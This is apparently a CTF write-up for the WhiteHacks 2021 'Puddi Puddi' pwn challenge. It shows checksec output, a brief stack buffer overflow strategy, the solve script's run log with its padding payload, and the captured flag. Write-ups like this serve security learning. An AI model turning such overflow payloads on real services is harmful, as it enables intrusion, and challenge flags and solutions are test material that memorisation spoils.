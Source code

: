 # Puddi Puddi
981, PWN, 12 SOLVES


### Description
Why have a MEGA 🍮 when you can have a GIGA 🍮?

Interact with the service using nc chals.whitehacks.ctf.sg 20301 to get started!

### Attached Files
exploit-template.py
puddi

## Solution

### Strategy
$ checksec puddi
[*] '/mnt/c/Users/zunmu/Documents/Stuff/Github/Solutions/Cyber Security/Capture the Flag Competitions/2021/Whitehacks 2021/Pwn/Puddi Puddi/puddi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled


The idea is a typical buffer overflow problem, to overflow the variable such that you modify the other variables on the stack

$ rbp is the base pointer, $rsp is the stack pointer

Through math and trial and error on gdb, we can figure out

### Getting the flag from the server
```
$ python solve.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGIGA
[+] Opening connection to chals.whitehacks.ctf.sg on port 20301: Done
PUDDI PUDDI!
[*] Switching to interactive mode

PUDDI PUDDI!
SUGOKU DEKKAI...

 .d8888b.  8888888  .d8888b.         d8888       8888888b.  888     888 8888888b.  8888888b. 8888888 888
d88P  Y88b   888   d88P  Y88b       d88888       888   Y88b 888     888 888  "Y88b 888  "Y88b  888   888
888    888   888   888    888      d88P888       888    888 888     888 888    888 888    888  888   888
888          888   888            d88P 888       888   d88P 888     888 888    888 888    888  888   888
888  88888   888   888  88888    d88P  888       8888888P"  888     888 888    888 888    888  888   888
888    888   888   888    888   d88P   888       888        888     888 888    888 888    888  888   Y8P
Y88b  d88P   888   Y88b  d88P  d8888888888       888        Y88b. .d88P 888  .d88P 888  .d88P  888    "
 "Y8888P88 8888888  "Y8888P88 d88P     888       888         "Y88888P"  8888888P"  8888888P" 8888888 888


WH2021{3880fba0faf0_g1g4_pudd1}

[*] Got EOF while reading in interactive
$                
```

## Flag
`WH2021{3880fba0faf0_g1g4_pudd1}`